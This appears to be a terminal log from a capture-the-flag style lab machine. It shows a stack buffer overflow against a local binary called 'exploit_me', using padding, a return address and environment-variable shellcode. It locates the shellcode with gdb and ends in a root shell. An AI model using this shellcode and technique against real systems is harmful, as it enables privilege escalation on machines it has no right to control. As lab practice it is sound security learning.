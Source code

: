         Inferior 1 [process 2630] will be killed.

Quit anyway? (y or n) y
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "i"*140 + "\x3d\xf7\xff\xbf"')
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii=   
#



0xbffff8ef
$(python -c 'print "i"*140 + "\xbf\xf8\xff\xbf"')


zaz@BornToSecHackMe:~$ export SHELLCODE=`python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
zaz@BornToSecHackMe:~$ gdb ./exploit_me
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r
Starting program: /home/zaz/exploit_me

Breakpoint 1, 0x080483f7 in main ()
(gdb) x/s *((char **)environ+0)
0xbffff83f:      "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
(gdb) x/100xg 0xbffff83f
0xbffff83f:     0x444f434c4c454853      0x9090909090903d45
0xbffff84f:     0x9090909090909090      0x9090909090909090
0xbffff85f:     0x9090909090909090      0x9090909090909090
0xbffff86f:     0x9090909090909090      0x9090909090909090
0xbffff87f:     0x9090909090909090      0x9090909090909090
0xbffff88f:     0x9090909090909090      0x9090909090909090
0xbffff89f:     0x9090909090909090      0x9090909090909090
0xbffff8af:     0x9090909090909090      0x9090909090909090
0xbffff8bf:     0x9090909090909090      0x9090909090909090
0xbffff8cf:     0x9090909090909090      0x9090909090909090
0xbffff8df:     0x9090909090909090      0x9090909090909090
0xbffff8ef:     0x9090909090909090      0x9090909090909090
0xbffff8ff:     0x9090909090909090      0x9090909090909090
0xbffff90f:     0x2f2f6850c0319090      0x896e69622f686873
0xbffff91f:     0xcd0bb0e1895350e3      0x3d4c4c4548530080
[...]
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print "i"*140 + "\xbf\xf8\xff\xbf"'`
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii    
# whoami
root


